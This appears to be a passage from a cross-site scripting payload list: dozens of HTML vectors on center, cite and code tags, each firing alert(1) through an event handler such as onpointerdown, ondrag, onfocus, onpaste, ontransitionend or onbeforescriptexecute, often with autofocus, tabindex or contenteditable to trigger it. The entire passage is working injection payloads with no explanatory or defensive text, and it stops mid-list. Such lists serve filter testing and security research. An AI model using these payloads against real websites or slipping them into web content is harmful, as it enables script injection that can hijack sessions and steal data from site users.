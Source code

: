 <center onmousewheel=alert(1) style=display:block>requires scrolling
<center onpaste="alert(1)" contenteditable>test</center>
<center onpointerdown=alert(1) style=display:block>XSS</center>
<center onpointerenter=alert(1) style=display:block>XSS</center>
<center onpointerleave=alert(1) style=display:block>XSS</center>
<center onpointermove=alert(1) style=display:block>XSS</center>
<center onpointerout=alert(1) style=display:block>XSS</center>
<center onpointerover=alert(1) style=display:block>XSS</center>
<center onpointerrawupdate=alert(1) style=display:block>XSS</center>
<center onpointerup=alert(1) style=display:block>XSS</center>
<cite draggable="true" ondrag="alert(1)" style=display:block>test</cite>
<cite draggable="true" ondragend="alert(1)" style=display:block>test</cite>
<cite draggable="true" ondragenter="alert(1)" style=display:block>test</cite>
<cite draggable="true" ondragleave="alert(1)" style=display:block>test</cite>
<cite draggable="true" ondragstart="alert(1)" style=display:block>test</cite>
<cite id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></cite>
<cite id=x tabindex=1 onfocus=alert(1)></cite>
<cite id=x tabindex=1 onfocusin=alert(1)></cite>
<cite onafterscriptexecute=alert(1)><script>1</script>
<cite onbeforecopy="alert(1)" contenteditable>test</cite>
<cite onbeforecut="alert(1)" contenteditable>test</cite>
<cite onbeforescriptexecute=alert(1)><script>1</script>
<cite onblur=alert(1) id=x tabindex=1 style=display:block>test</cite><input value=clickme>
<cite onclick="alert(1)" style=display:block>test</cite>
<cite oncontextmenu="alert(1)" style=display:block>test</cite>
<cite oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<cite oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<cite ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</cite>
<cite onfocusout=alert(1) id=x tabindex=1 style=display:block>test</cite><input value=clickme>
<cite onkeydown="alert(1)" contenteditable style=display:block>test</cite>
<cite onkeypress="alert(1)" contenteditable style=display:block>test</cite>
<cite onkeyup="alert(1)" contenteditable style=display:block>test</cite>
<cite onmousedown="alert(1)" style=display:block>test</cite>
<cite onmouseenter="alert(1)" style=display:block>test</cite>
<cite onmouseleave="alert(1)" style=display:block>test</cite>
<cite onmousemove="alert(1)" style=display:block>test</cite>
<cite onmouseout="alert(1)" style=display:block>test</cite>
<cite onmouseover="alert(1)" style=display:block>test</cite>
<cite onmouseup="alert(1)" style=display:block>test</cite>
<cite onmousewheel=alert(1) style=display:block>requires scrolling
<cite onpaste="alert(1)" contenteditable>test</cite>
<cite onpointerdown=alert(1) style=display:block>XSS</cite>
<cite onpointerenter=alert(1) style=display:block>XSS</cite>
<cite onpointerleave=alert(1) style=display:block>XSS</cite>
<cite onpointermove=alert(1) style=display:block>XSS</cite>
<cite onpointerout=alert(1) style=display:block>XSS</cite>
<cite onpointerover=alert(1) style=display:block>XSS</cite>
<cite onpointerrawupdate=alert(1) style=display:block>XSS</cite>
<cite onpointerup=alert(1) style=display:block>XSS</cite>
<code draggable="true" ondrag="alert(1)" style=display:block>test</code>
<code draggable="true" ondragend="alert(1)" style=display:block>test</code>
<code draggable="true" ondragenter="alert(1)" style=display:block>test</code>
<code draggable="true" ondragleave="alert(1)" style=display:block>test</code>
<code draggable="true" ondragstart="alert(1)" style=display:block>test</code>
<code id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></code>
<code id=x tabindex=1 onfocus=alert(1)></code>
<code id=x tabindex=1 onfocusin=alert(1)></code>
<code onafterscriptexecute=alert(1)><script>1</script>
<code onbeforecopy="alert(1)" contenteditable>test</code>
<code onbeforecut="alert(1)" contenteditable>test</code>
<code onbeforescriptexecute=alert(1)><script>1</script>
<code onblur=alert(1) id=x tabindex=1 style=display:block>test</code><input value=clickme>
<code onclick="alert(1)" style=display:block>test</code>
<code oncontextmenu="alert(1)" style=display:block>test</code>